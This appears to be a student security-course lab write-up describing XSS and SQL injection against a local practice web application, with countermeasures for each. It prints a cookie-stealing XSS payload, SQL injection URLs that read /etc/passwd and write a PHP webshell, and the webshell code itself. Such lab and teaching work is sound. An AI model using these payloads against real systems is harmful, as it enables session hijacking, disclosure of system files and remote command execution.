






# Language-based Security

## Lab 3 - Web Application Security

### Part 1: Cross-Site Scripting (XSS)

The main XSS vulnerability that we found was in the "text" field of the comment section the the home page. Indeed, there was no filtering of any kind of HTML charateres of quotes.
This allowed us to inject javascript code in the field to upload a simple picture and, at the same time, steal the `PHPSESSID`cookie of the administator looking at the web page.

#### Description of the attack

The command that we insert in the "text" field and used to steal the administrator's cookie is:
```javascript
<script>var backup_url='http://media.istockphoto.com/photos/head-shot-of-cute-purebred-rottweiler-dog-pup-hanging-with-paws-over-picture-id1096889426';document.write('');</script>
```

When the administrator checks the comments' page, the first source of the image will send his cookie (via the `document.cookie` command) to our requestbin url and be analysed.



The thing is that he will only see that someone uploaded a picture of a dog because a backup url is used in the `onerror`tag of the `` in case the first source url doesn't lead to a picture file.
All we need then, to hijack the administator's session, is to replace the value of our `PHPSESSID`cookie, in the dev tools of the web browser, by the value of the administrator's cookie.



Finally, we just need to reload the web page and we successfully hijacked the administrator's session. When we click on the "admin" link, we bypass the login/password step:



To prevent this attack from happening, we should sanitize user's inputs in the comment's text field. 
We can add escaping functions in the back-end source code to encode special HTML characteres. Some PHP functions are discussed in the countermeasures part.

#### Countermeasures

- Client-side:

Desactivate javascript code execution option in the web browser:
It is possible in modern web browsers to disable javascript code execution when visiting a web page. This would prevent cookie stealing attacks but some websites need javascript to work properly so it can't be a solution on the long run.

- Server-side:

HttpOnly: 
One of the things that could be done to prevent cookie stealing could be to set the HttpOnly flag on the cookies sent by the server so that they can only be communicated over secure channels (SSL/TLS encryption) and become unreadable with javascript code.
The thing is that we also need to switch to an HTTPS communication protocol between the server and the client if we want the cookies to be sent.


Use escaping/encoding:
Another thing that could be done is to encode HTML entites in the user's inputs like `>` to `&gt;`, `<` to `&lt;` and quotes like `'` and `"` respectively to `&#x27;` and `&quot;`.
In PHP for exemple, we can use functions like `htmlentities()` or `htmlspecialchars()` to escape all special charateres that could be used to inject code in the input fields.

### Part 2: SQL Injection

#### Known Vulnerabilities

Firstly we tried to find vulnerabilities in the admin form, for example by escaping password verification, but this method was not very successful. Then we find that the URL was not sanitized, meaning that some commands can be executed through the path, in this lab we will perfom SQL injection, meaning that we will execute SQL queries through this path.

#### Exploiting File Privilege

Using SQL injection, we can for example input a command that reads `/etc/passwd` and display content of this file into a form, as in the image below



In order to perform this action, we used the url `http://localhost/admin/edit.php?id=0%20union%20select%201,2,load_file("/etc/passwd"),4`, that executes the query directly on the server which the mysql user, which has more rights than the www-data user. Thus, it's possible to display sensitive files, for example in this case the file containing information about users registered on the system. Before we would have also found passwords in this file, but now UNIX systems uses `/etc/shadow` file to save password hashes. 


#### Create a Webshell

Then, another vulnerability that could harm the system would be to execute unauthorized code remotely, by putting this request as an url :

`http://localhost/admin/edit.php?id=0%20union%20select%201,2,%22%3C?php%20system($_GET[%27cmd%27]);%20?%3E%22,4%20into%20outfile%20%22/var/www/css/webshell.php%22`

By doing this, the mysql user will write on our ccs folder, which as write access for everyone, our php file, that we can see on the image below :



Our file contain php code that will fetch the "cmd" parameter in our url, and run it through a shell

```php
<?php
    system($_GET['cmd']);
?>

```

Now we have our php file on the server, we can execute code remotely




#### Countermeasures

##### Web Application

- Parameterised queries : MySQL supports parameterised queries, meaning instead of injecting values directly in the command, it uses inputs as parameters, that are then formatted by only acceptable values into the SQL statement.
- Remove error messages : not the case in this app, but on some web servers if an error occurs it's sometimes thrown back to the client, allowing a potential attacker to gain some information that could help him break the system (like tables structure for example)
    
##### Database System

- Use the principle of least privilege : every web application on a server should have its own database account. Running an application using privileged users (as root, or mysql user) can be very harmful in this type of attack. Anything an administrator can do, so can an attacker. We have the case here by reading the passwd file.
- An even more secure countermeasure would be, for each database account, to authorize only writing and reading the database, and forbid harmful actions like dropping tables.
- Use stored procedures : extra layer of abstraction on your application, you can specify every action that are allowed on each table by creating prepared functions, and use them instead of requesting directly your database. ANy request which is not part of a procedure would be rejected because in a standard usage you would not need to do this action.

##### Operating System

- Change permission on server. In server mostly recommended that directories permissions should 755 and files 644. In permissions 777 are not recommended due to security reasons. When we created the webshell, we used writing rights that were allowed in css folder, and are useless during normal execution so by removing this permission we would ensure that users can't write in this folder.


### Sources

1. [Sécurisez vos cookies (instructions Secure et HttpOnly)](https://blog.dareboost.com/fr/2016/12/securisez-cookies-instructions-secure-httponly/)
2. [SQL Injection Attacks and Some Tips on How to Prevent Them](https://www.codeproject.com/Articles/9378/SQL-Injection-Attacks-and-Some-Tips-on-How-to-Prev)
